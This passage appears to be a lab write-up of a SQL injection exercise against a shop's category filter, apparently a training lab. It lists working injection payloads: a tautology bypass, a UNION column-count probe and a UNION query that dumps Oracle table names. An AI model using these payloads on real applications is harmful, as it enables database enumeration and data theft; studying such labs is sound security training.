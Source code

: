 ![img](media/2d409d76d112115525173fba0786e391.png)

We find these payload are valid to display the 4 posts in Gifts and the second
all the items:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Pets'--
/filter?category=Pets'+or+1=1--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Also, that there are 2 columns returned by the query and we can do a UNION
attack with the payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Pets'+union+all+select+NULL,NULL+from+dual--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

List the table names with

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
SELECT table_name from all_tables
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Pets'+union+all+select+'1',table_name+from+all_tables--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

